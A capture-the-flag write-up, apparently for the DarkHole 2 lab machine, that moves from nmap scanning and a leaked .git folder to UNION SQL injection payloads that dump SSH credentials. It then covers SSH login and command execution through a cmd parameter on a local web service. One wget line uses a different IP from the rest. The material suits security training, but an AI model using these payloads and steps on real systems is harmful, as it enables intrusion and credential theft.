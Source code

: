 <h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/104873e8-46e1-4264-a1e7-51389bc48a1e"></picture></h1>

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Reconnaissance & Scanning</h1>

```bash
arp-scan -I eth0 --localnet --ignoredups
```
![image](https://github.com/user-attachments/assets/de8e5575-0453-497e-80f7-9467daf35c28)

```bash
ping -c 1 192.168.1.210
```
![image](https://github.com/user-attachments/assets/88319795-5f50-45a4-b7e0-4a89fca4c012)

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.210 -oG allPorts
```
![image](https://github.com/user-attachments/assets/caab3713-32f9-45cb-9347-4540c21e16df)

```bash
nmap -sCV -p22,80 192.168.1.210 -oN targeted
```
![image](https://github.com/user-attachments/assets/9d7977fb-b01e-4c8f-9237-8b3dcb959f48)

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Vulnerability Assessment</h1>

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 22</h2>

![image](https://github.com/user-attachments/assets/fb033fd8-2155-4cbd-8e52-9f1a9a42d500)
![image](https://github.com/user-attachments/assets/df1662e7-8ff5-4ea0-9eb2-bd2c1f0f207f)
![image](https://github.com/user-attachments/assets/e7765820-701f-4ab2-bba6-afb011e37593)<br>
<br>
#### **This machine is a Ubuntu Focal**

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 80</h2>

![image](https://github.com/user-attachments/assets/d42310cb-ab4b-46fe-8bf3-6754bf48e422)

``CTRL+U``
<br>
<br>
![image](https://github.com/user-attachments/assets/94f0d78a-3a61-48f3-b968-07132e49bc7a)
![image](https://github.com/user-attachments/assets/87d49f77-cc5a-4aa5-9daf-eb9186bd72ed)
![image](https://github.com/user-attachments/assets/c8ee583d-de18-4adf-ba69-4fabeb1977e3)<br>
<br>
#### **We found a web login**

### **Fuzzing**
```bash
gobuster dir -u http://192.168.1.210/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```
![image](https://github.com/user-attachments/assets/dbad34e3-bd2f-4f82-922e-97e197aca627)
![image](https://github.com/user-attachments/assets/9821288a-4bc4-40c7-a197-5ee7129a8fde)
![image](https://github.com/user-attachments/assets/8660a7ea-4ec9-4510-87c1-4c3c5c0d98dd)
![image](https://github.com/user-attachments/assets/3216459f-0e6e-4f5b-a488-d0def89b5a41)
![image](https://github.com/user-attachments/assets/2d8a2c67-dfc0-4bde-bfc9-61546d49ea94)
![image](https://github.com/user-attachments/assets/e9754472-778d-4b38-aa5f-35641fe76548)

```bash
whatweb "http://192.168.1.210"
```
![image](https://github.com/user-attachments/assets/9897106f-25dd-4fda-8a3e-f2b6e8d2ef01)

### **.git**
![image](https://github.com/user-attachments/assets/75deb6fc-8d73-4be7-9e1b-afd111bdf1e7)
![image](https://github.com/user-attachments/assets/9a9828e5-b238-478c-8741-10275f16d3e8)
<br>
<br>
#### **Download content for analysis**
```bash
wget -r http://192.168.1.172/.git/
```
![image](https://github.com/user-attachments/assets/d7394a20-d0f7-4b50-af99-eecdee7674bb)

#### **Checking gitlog of the repository**
```bash
git log
```
![image](https://github.com/user-attachments/assets/967b793f-91c8-4ca7-a92a-8783711c90d6)

```bash
git log --oneline
```
![image](https://github.com/user-attachments/assets/7285dea1-a75d-4c84-9816-e2779fd60645)

```bash
git show a4d900a
```
![image](https://github.com/user-attachments/assets/d01f05b0-960f-492b-aa69-978889012c18)

#### **We finally have credentials**
User:    lush@admin.com<br>
Paswwd:  321

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Gaining Access</h1>

![image](https://github.com/user-attachments/assets/62bbcd1d-acd3-403d-bd08-3df3892d5cfe)
![image](https://github.com/user-attachments/assets/3be015c2-096e-4a02-a50e-eb939a87385b)
![image](https://github.com/user-attachments/assets/34a7d54f-cc17-4c3e-b134-e38095dd36e4)
![image](https://github.com/user-attachments/assets/c507dd9a-8222-4133-95ff-066ad61d0ef3)
![image](https://github.com/user-attachments/assets/c71a50cc-aa9c-4def-b4d4-91e10c90929b)

#### **intercepting with burp, to see how everything goes from behind**
```bash
burpsuite &> /dev/null & disown
```
![image](https://github.com/user-attachments/assets/6a77d54a-b163-436c-814f-960d9682f3f9)

#### **sending the captured information to the repeter**
``CTRL+R``<br>

![image](https://github.com/user-attachments/assets/d12cb967-dce8-4099-9fce-1f0861d767b7)
![image](https://github.com/user-attachments/assets/53c4bd44-77bc-480e-8af0-3954ba11a31a)

### **Showing database**
```SQLI
1' order by 6-- - 
```
![image](https://github.com/user-attachments/assets/1b46970d-4b91-416d-98db-7fff663a2d60)

```SQLI
2' union select 1,2,3,4,5,6-- -
```
![image](https://github.com/user-attachments/assets/3cf1d124-971d-48b7-8017-fe47deffd766)
![image](https://github.com/user-attachments/assets/52c76219-f1b9-4b99-be01-afda0eda509f)

```SQLI
2' union select 1,2,database(),4,5,6-- -
```
![image](https://github.com/user-attachments/assets/ffd5caa6-d457-4ee0-a720-2b5972fa8382)
![image](https://github.com/user-attachments/assets/3e4561d3-b8df-4c06-86a2-4d1b2fd9e999)

```SQLI
2' union select 1,2,schema_name,4,5,6 from information_schema.schemata-- -
```
![image](https://github.com/user-attachments/assets/bca85749-2efc-4ca5-8704-a07b3f55ba28)
![image](https://github.com/user-attachments/assets/b0eb9738-d9df-4578-b231-926d3325b115)

```SQLI
2' union select 1,2,group_concat(schema_name),4,5,6 from information_schema.schemata-- -
```
![image](https://github.com/user-attachments/assets/b45d280e-405c-467b-8ede-ad661c8e9a32)
![image](https://github.com/user-attachments/assets/add53760-26fd-4658-ba8b-2f8606805e2e)

### **Showing Tables**

```SQLI
2' union select 1,2,group_concat(table_name),4,5,6 from information_schema.tables where table_schema='darkhole_2'-- -
```
![image](https://github.com/user-attachments/assets/e0c9fafb-2b30-44a4-8e86-a1e07970a733)
![image](https://github.com/user-attachments/assets/24a07cab-0683-4896-a76a-3d7cbc7a32c9)

### **Showing Columns**

```SQLI
2' union select 1,2,group_concat(column_name),4,5,6 from information_schema.columns where table_schema='darkhole_2' and table_name="ssh"-- -
```
![image](https://github.com/user-attachments/assets/6aac1ac1-bbfb-42a9-af96-1d3a18d82021)
![image](https://github.com/user-attachments/assets/11edc06f-1aa0-495e-a3c1-d4e162e49484)

### **Showing Content**
```SQLI
2' union select 1,2,group_concat(user,0x3a,pass),4,5,6 from ssh-- -
```
![image](https://github.com/user-attachments/assets/52cdcd81-f6bf-42cd-9f54-406291011e21)
![image](https://github.com/user-attachments/assets/06f014b1-d76b-43d4-a9d1-96481042e295)

User:    jehad<br>
Passwd:  fool

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 22</h2>

```bash
ssh jehad@192.168.1.210
```
![image](https://github.com/user-attachments/assets/bacade7e-5272-4a69-8ae2-8369d12ad233)

### **TTY treatment**
```bash
reset xterm
export TERM=xterm
export SHELL=bash
```
![image](https://github.com/user-attachments/assets/7542a396-ea4c-4f30-aa72-6af74444a298)

```bash
cat .bash_history
```
![image](https://github.com/user-attachments/assets/23c718d1-d55a-4f23-bf80-6eda02664205)

```bash
netstat -nat
```
![image](https://github.com/user-attachments/assets/949ada36-6c76-4a97-a8c6-4da4d7babddf)

```bash
ps -faux | grep 9999
```
![image](https://github.com/user-attachments/assets/73a1d181-2f51-414b-82f6-6440353bf93f)

```bash
cat index.php
```
![image](https://github.com/user-attachments/assets/d3c6ee07-90ba-4745-99c4-e58d0d2ed592)

```bash
curl "http://localhost:9999/index.php?cmd=whoami" -X GET; echo
```
![image](https://github.com/user-attachments/assets/06e3a4e0-f8a0-4555-b951-e134a1c07a2e)












